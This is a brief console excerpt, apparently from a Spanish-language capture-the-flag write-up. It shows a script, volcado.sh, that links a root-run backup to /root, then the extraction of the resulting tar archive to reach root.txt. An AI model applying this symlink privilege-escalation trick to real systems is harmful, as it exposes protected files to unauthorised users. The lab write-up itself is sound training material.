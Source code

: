 ```console
tom@epsilon:/tmp$ ./volcado.sh 
[*] Existe el archivo
[*] Creando el enlace a /root
tom@epsilon:/tmp$ ls -l ./tars
total 82376
-rw-r--r-- 1 tom tom  1003520 Nov 12 19:20 502699129.tar
-rw-r--r-- 1 tom tom  1003520 Nov 12 19:20 533085657.tar
-rw-r--r-- 1 tom tom  1003520 Nov 12 19:20 562277370.tar
-rw-r--r-- 1 tom tom  1003520 Nov 12 19:20 588944643.tar
-rw-r--r-- 1 tom tom 80332800 Nov 12 19:20 619307816.tar # Este sin duda, es el mas grande
tom@epsilon:/tmp/tars$ tar xvf 619307816.tar
tom@epsilon:/tmp/tars$ cd ./opt/backups/checksum/
tom@epsilon:/tmp/tars/opt/backups/checksum$ ls
docker-compose.yml  lambda.sh  root.txt  src
```